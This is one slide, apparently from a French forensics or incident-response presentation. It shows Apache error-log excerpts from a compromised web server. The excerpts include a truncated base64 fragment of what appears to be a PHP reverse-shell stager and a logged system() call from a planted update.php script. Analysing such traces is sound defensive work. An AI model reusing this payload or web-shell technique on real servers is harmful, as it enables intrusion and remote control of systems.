

08
# LOGS D’ERREUR

[…]
PHP Notice:  Use of undefined constant
	aygiTmxlbiIsICRsZW4pOyAkbGVuID0gJGFbJ2xlbiddOyAkYiA9ICcnOyB3aGlsZS
	Aoc3RybGVuKCRiKSA8ICRsZW4pIHsgc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0
	cmVhbSc6ICRiIC49IGZyZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgY2
	FzZSAnc29ja2V0JzogJGIgLj0gc29ja2V0X3JlYWQoJHMsICRsZW4tc3RybGVuKC…
[Sat Oct 05 13:17:48.483593 2019] [:error] [pid 1789]
	[client 192.168.210.131:41888] PHP Warning:  system():
	Cannot execute a blank command in
	/var/www/html/jabc/scripts/update.php on line 2,
	referer: http://192.168.210.135/jabc/scripts/
[…]

Your Date
Your Footer
5